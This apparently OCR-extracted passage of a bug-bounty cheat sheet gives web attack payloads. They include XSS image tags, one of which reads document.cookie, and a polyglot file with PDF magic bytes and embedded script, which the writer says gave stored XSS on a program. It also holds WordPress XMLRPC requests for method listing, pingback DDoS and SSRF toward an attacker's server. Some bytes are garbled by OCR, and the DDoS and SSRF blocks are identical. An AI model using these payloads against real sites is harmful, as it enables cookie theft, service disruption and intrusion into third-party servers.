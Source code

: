 ```powershell
<img/src=x onerror=prompt(1)>


I had success recently also by uploading a .html file with pdf magic bytes at the strat with arbitary javascript to obtain stored XSS on a program.

Payload Below:


%PDF-1.4
%Ã¤Ã¼Ã¶Ã
2 0 obj
<</Length 3 0 R/Filter/FlateDecode>>
stream
x=Ë
1E÷ù»v¶é´0è~ àø
R
R<h1>This is NOT a PDF!</h1> <img src=x onerror=alert(document.cookie)>
```


#### XMLRPC.php

```powershell


List all Methods
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>


DDoS

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>


SSRF 

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

